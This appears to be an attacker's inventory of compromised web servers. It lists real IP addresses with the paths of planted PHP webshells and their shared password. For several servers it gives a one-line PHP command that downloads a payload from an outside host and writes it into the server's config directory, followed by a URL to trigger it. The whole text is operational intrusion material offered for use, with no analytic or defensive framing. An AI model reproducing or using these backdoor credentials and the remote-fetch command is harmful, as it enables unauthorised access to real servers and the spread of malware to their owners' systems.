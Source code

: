 http://114.55.129.167/template/default/bootstrap/js/js.php |mmk123
代码更新：0608 ✅
http://114.55.129.167/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://114.55.129.167/config/httpd.php?d=up

http://47.99.75.245/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.99.75.245/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.99.75.245/config/httpd.php?d=up

http://39.106.48.93/template/default/bootstrap/js/js.php |mmk123
代码更新：0608 ✅
http://39.106.48.93/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.106.48.93/config/httpd.php?d=up

http://39.105.19.82/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://39.105.19.82/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.105.19.82/config/httpd.php?d=up

http://47.93.222.16/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.93.222.16/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.93.222.16/config/httpd.php?d=up

http://123.57.11.49/template/default/fileinput/.github/m1.php |mmk123 
代码更新：0608 ✅
http://123.57.11.49/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://123.57.11.49/config/httpd.php?d=up

http://123.57.11.49/index_bk.php |mmk123 

http://47.95.210.105/template/default/css/m1.php |mmk123 
http://47.95.210.105/index_bk.php |mmk123 
http://47.95.210.105/core/extend/excel/m1.php |mmk123 
http://47.95.210.105/index_bk.php |mmk123 
http://39.106.73.142/apps/api/model/wap.php |mmk123 
http://39.106.73.142/index_bk.php |mmk123 
https://121.196.161.139/index_bk.php |mmk123 

